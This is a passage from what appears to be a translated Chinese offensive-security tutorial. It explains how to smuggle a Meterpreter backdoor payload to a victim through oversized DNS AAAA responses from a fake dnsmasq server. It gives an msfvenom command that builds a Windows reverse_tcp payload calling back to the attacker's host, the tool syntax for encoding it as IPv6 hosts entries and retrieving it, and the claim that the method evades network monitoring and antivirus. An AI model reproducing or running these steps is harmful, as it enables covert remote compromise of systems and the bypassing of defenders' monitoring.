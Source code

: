 

**<br>**

**0x02 DNS和AAAA记录（大的DNS AAAA记录响应）**

现在，本文中我想讨论DNS和AAAA记录，并讨论如何通过从假的DNS服务器到后门系统的一个DNS请求和DNS响应得到这些payload。因此我们讨论大的AAAA响应，意味着在一个DNS响应之后，你能通过一个DNS AAAA响应，在后门系统上得到所有的payload和Meterpreter会话。

通过NativePayload_IP6DNS工具，使用DNS AAAA记录传输后门payload的步骤：

步骤1：使用hosts文件伪造假的DNS服务器。

这种情况下，对于攻击者系统，我想使用dnsmasq工具和dnsmasq.hosts文件。

在我们伪造文件之前，你需要payload，因此能通过下面的命令得到payload：

Msfvenom–arch x86_64 –platform windows -pwindows/x64/meterpreter/reverse_tcp lhost 192.168.1.50 -f c &gt;/payload.txt

注意：这个例子中的192.168.1.50是攻击者的虚假的dns服务器，和攻击者的Metasploit Listener。

现在你应该通过这个payload字符串伪造hosts文件，如图1，你能使用下面的语法伪造：

语法1: NativePayload_IP6DNS.exe null 0034abcdef00ab11ccf1cf89abff000e09b133b1…

[![](./img/85599/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0136b9eb062edb3414.png)

图1

现在拷贝这些IPv6地址到DNS hosts文件中，如图2，并且你需要在每行IPv6地址后面写入DNS域名。

[![](./img/85599/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011cf32925f48d25e7.png)

图2

这个例子中，我想使用工具dnsmasq作为DNS服务器，因此你能编辑/etc/hosts文件或者/etc/dnsmasq.hosts。

它依赖你的dnsmasq工具的配置。

因此，如图3，你能使用如下命令启动DNS服务器。

[![](./img/85599/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013cd8e31f6297c8a4.png)

图3.

在启动DNS服务器后，你的dnsmasq应该会从hosts文件中至少读取51个地址。

最后用下面的语法，通过一个DNS IPv6 AAAA记录响应，你将得到Meterpreter会话（如图A2中的大的响应，第二个DNS响应，长度为1503）

语法: NativePayload_IP6DNS.exe “FQDN” “Fake DNS Server”

语法: NativePayload_IP6DNS.exe test.domain.com 192.168.1.50

[![](./img/85599/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d6015b937f6bbcec.png)

图4

总而言之，DNS流量的PTR记录和IPv6 AAAA记录对于传输payload并绕过网络监控或者类似的东西非常有用，并且这些技术也能绕过反病毒软件。

NativePayload_IP6DNS.exe的C#源代码：（DNS AAAA记录）

[https://github.com/DamonMohammadbagher/NativePayload_IP6DNS](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS)

NativePayload_DNS.exe tool的C#源代码：（DNS PTR记录）

[https://github.com/DamonMohammadbagher/NativePayload_DNS](https://github.com/DamonMohammadbagher/NativePayload_DNS)
